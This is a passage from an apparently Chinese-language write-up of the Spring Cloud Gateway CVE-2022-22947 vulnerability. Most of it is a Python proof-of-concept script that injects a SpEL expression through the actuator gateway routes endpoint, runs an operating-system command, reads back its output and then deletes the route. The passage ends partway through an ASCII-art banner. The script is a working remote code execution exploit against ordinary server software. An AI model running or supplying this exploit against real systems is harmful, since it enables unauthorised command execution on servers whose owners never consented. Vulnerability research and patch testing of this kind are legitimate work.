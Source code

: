 <br/>最后同样记得发送DELETE请求将创建的路由删除。

## 漏洞POC

<a-alert type="success" message="https://github.com/lucksec/Spring-Cloud-Gateway-CVE-2022-22947/blob/main/spring_cloud_RCE.py" description="" showIcon>
</a-alert>
<br/>

```python
import requests
import json
import sys


def exec(url):

    headers1 = {
        'Accept-Encoding': 'gzip, deflate',
        'Accept': '*/*',
        'Accept-Language': 'en',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36',
        'Content-Type': 'application/json'
    }

    headers2 = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36',
        'Content-Type': 'application/x-www-form-urlencoded'
    }

    ## command to execute replace "id" in payload

    payload = '''{\r
      "id": "hacktest",\r
      "filters": [{\r
        "name": "AddResponseHeader",\r
        "args": {"name": "Result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\\"id\\"}).getInputStream()))}"}\r
        }],\r
      "uri": "http://example.com",\r
      "order": 0\r
    }'''

   

    
    re1 = requests.post(url=url + "/actuator/gateway/routes/hacktest",data=payload,headers=headers1,json=json)
    re2 = requests.post(url=url + "/actuator/gateway/refresh" ,headers=headers2)
    re3 = requests.get(url=url + "/actuator/gateway/routes/hacktest",headers=headers2)
    re4 = requests.delete(url=url + "/actuator/gateway/routes/hacktest",headers=headers2)
    re5 = requests.post(url=url + "/actuator/gateway/refresh" ,headers=headers2)
    print(re3.text)


if __name__ == "__main__":
  print('''   ██████  ██      ██ ████████        ████   ████   ████   ████         ████   ████   ████     ██  ██████
  ██░░░░██░██     ░██░██░░░░░        █░░░ █ █░░░██ █░░░ █ █░░░ █       █░░░ █ █░░░ █ █░░░ █   █░█ ░░░░░░█
```